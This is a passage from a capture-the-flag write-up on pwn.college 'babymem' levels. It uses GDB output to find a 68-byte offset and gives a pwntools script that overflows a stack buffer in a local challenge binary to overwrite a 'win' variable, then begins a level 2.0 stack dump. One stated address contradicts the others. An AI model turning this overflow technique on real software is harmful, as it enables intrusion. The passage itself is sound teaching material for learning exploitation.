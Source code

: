 And from the two lines above, we learn that the value in $eax is moved from dereferenced `[rbp-0x58]`.

Let's check the value of `[rbp-0x58]`:

```
gef➤  x/a $rbp - 0x58
0x7fff4cbdb278: 0x7fff4cbdb2c4
```

The location of the win variable is `0x7ffc615eec14`.

So we have all the information we need:

* [x] Location of buffer: `0x7fff4cbdb280`.
* [x] Location of win variable: `0x7fff4cbdb2c4`.

Let's find the distance between the buffer and win variable in order to get the length of our payload padding.

```
gef➤  p/d 0x7fff4cbdb2c4 - 0x7fff4cbdb280
$3 = 68
```

We are all set to craft our payload.

```python
from pwn import *

padding = b'A' * 68
payload = padding + p64(0x42424242)

p = process('/challenge/babymem_level1.1')
p.recvuntil('size:')
p.sendline('200')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```



## level 2.0

> Overflow a buffer on the stack to set trickier conditions to obtain the flag!

{% code fullWidth="false" %}
```
	    +---------------------------------+-------------------------+--------------------+
	    |                  Stack location |            Data (bytes) |      Data (LE int) |
	    +---------------------------------+-------------------------+--------------------+
esp ------> | 0x00007fff85a4bc80 (rsp+0x0000) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
            | 0x00007fff85a4bc88 (rsp+0x0008) | 78 ce a4 85 ff 7f 00 00 | 0x00007fff85a4ce78 |
	    | 0x00007fff85a4bc90 (rsp+0x0010) | 68 ce a4 85 ff 7f 00 00 | 0x00007fff85a4ce68 |
	    | 0x00007fff85a4bc98 (rsp+0x0018) | 23 57 70 85 01 00 00 00 | 0x0000000185705723 |
	    | 0x00007fff85a4bca0 (rsp+0x0020) | 68 0d 00 00 00 00 00 00 | 0x0000000000000d68 |
	    | 0x00007fff85a4bca8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
	    | 0x00007fff85a4bcb0 (rsp+0x0030) | c0 bc a4 85 ff 7f 00 00 | 0x00007fff85a4bcc0 | <------ *buff
	    | 0x00007fff85a4bcb8 (rsp+0x0038) | 18 bd a4 85 ff 7f 00 00 | 0x00007fff85a4bd18 | <------ *win
	    | 0x00007fff85a4bcc0 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 | \
	    | 0x00007fff85a4bcc8 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |  \
            | 0x00007fff85a4bcd0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
            | 0x00007fff85a4bcd8 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bce0 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |
	    | 0x00007fff85a4bce8 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |   |---- buffer
```